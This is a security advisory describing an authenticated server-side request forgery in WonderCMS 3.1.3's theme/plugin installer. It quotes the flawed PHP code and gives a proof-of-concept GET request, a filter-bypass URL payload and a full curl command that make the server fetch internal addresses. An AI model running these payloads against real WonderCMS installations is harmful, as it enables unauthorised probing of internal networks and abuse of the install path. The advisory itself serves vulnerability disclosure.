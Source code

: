 # SSRF vulnerability in `installUpdateThemePluginAction` Function of `index.php` File when type=themes (WonderCMS 3.1.3 version)

## 0x01 Affected version

vendor: https://github.com/WonderCMS/

version: 3.1.3

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in `installUpdateThemePluginAction` function of WonderCMS 3.1.3 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `installThemePlugin` parameter. The vulnerability is triggered when the value of the parameter `type` is `themes`. We should note that the vulnerability requires authentication to trigger.



The vulnerable code is located in the `installUpdateThemePluginAction()` function in the `index.php` file. Because the function `installUpdateThemePluginAction()` does not perform sufficient checksumming on the `installThemePlugin` parameter, the taint is introduced from the `$url` variable into the tainted function `curl_exec` at the file `index.php`, and after the `curl_exec` function is executed it sends a request to the URL specified by the `installThemePlugin` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```
Wcms->installUpdateThemePluginAction (/var/www/html/wondercms/index.php:1083)
Wcms->init (/var/www/html/wondercms/index.php:130)
{main} (/var/www/html/wondercms/index.php:15)
```



The location of the code that triggers the vulnerability

```php
	/**
	 * Install and update theme
	 * @throws Exception
	 */
	public function installUpdateThemePluginAction(): void
	{
		if (!isset($_REQUEST['installThemePlugin'], $_REQUEST['type']) || !$this->verifyFormActions(true)) {
			return;
		}

		$url = $_REQUEST['installThemePlugin'];
		$type = $_REQUEST['type'];
		$path = sprintf('%s/%s/', $this->rootDir, $type);
		$folders = explode('/', str_replace(['/archive/master.zip','/archive/main.zip'], '', $url));
		$folderName = array_pop($folders);

		if (in_array($type, self::VALID_DIRS, true)) {
			$zipFile = $this->filesPath . '/ZIPFromURL.zip';
			$zipResource = fopen($zipFile, 'w');
			$ch = curl_init();
			curl_setopt($ch, CURLOPT_URL, $url);
			curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
			curl_setopt($ch, CURLOPT_FILE, $zipResource);
			curl_exec($ch);
			$curlError = curl_error($ch);
			curl_close($ch);
			$zip = new \ZipArchive;
			if ($curlError || $zip->open($zipFile) !== true || (stripos($url, '.zip') === false)) {
				$this->recursiveDelete($this->rootDir . '/data/files/ZIPFromURL.zip');
				$this->alert('danger',
					'Error opening ZIP file.' . ($curlError ? ' Error description: ' . $curlError : ''));
				$this->redirect();
			}
			$zip->extractTo($path);
			$zip->close();
			$this->recursiveDelete($this->rootDir . '/data/files/ZIPFromURL.zip');
			$this->recursiveDelete($path . $folderName);
			$themePluginFolder = $path . $folderName . '-master';
			if (!is_dir($themePluginFolder)) {
				$themePluginFolder = $path . $folderName . '-main';
			}
			if (!rename($themePluginFolder, $path . $folderName)) {
				throw new Exception('Theme or plugin not installed. Possible cause: themes or plugins folder is not writable.');
			}
			$this->alert('success', 'Successfully installed/updated ' . $folderName . '.');
			$this->redirect();
		}
	}
```



Because the `installThemePlugin` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
GET /wondercms/?installThemePlugin=http://172.16.119.1/tets%23https://github.com/robiso/sky/archive/master.zip&type=themes&token=a3926e0b25ea9c109c32e1f013a571b51190214bdf2dd848d04f314214af2812
```



This also shows that the security filtering functions currently used are incomplete. An attacker can easily bypass it by using the following payload.

```
http://172.16.119.1/tets%23https://github.com/robiso/sky/archive/master.zip
```



Examples of triggered vulnerabilities

![image-20230721175409973](./assets/image-20230721175409973.png)



You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i -s -k -X $'GET' \
    -H $'Host: 172.16.119.147' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H $'Referer: http://172.16.119.147/wondercms/?installThemePlugin=http://172.16.119.1/' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: zh-CN,zh;q=0.9' -H $'x-custom-ip-authorization: 127.0.0.1' -H $'Connection: close' \
    -b $'54e7d701daf706e028b5135c2ab6049b=svkasl680me62m9o8eh5ika81j; PHPSESSID=a5kttu2d8dhc2b4osfkj7g1b8k' \
    $'http://172.16.119.147/wondercms/?installThemePlugin=http://172.16.119.1/flag234%23https://github.com/robiso/sky/archive/master.zip&type=themes&token=be0dee20ca747ed7b1dd1d5b09b7be45d56a3267ef23ed993a2921cc4a64a565'
```

## 0x03 Acknowledgement

z3



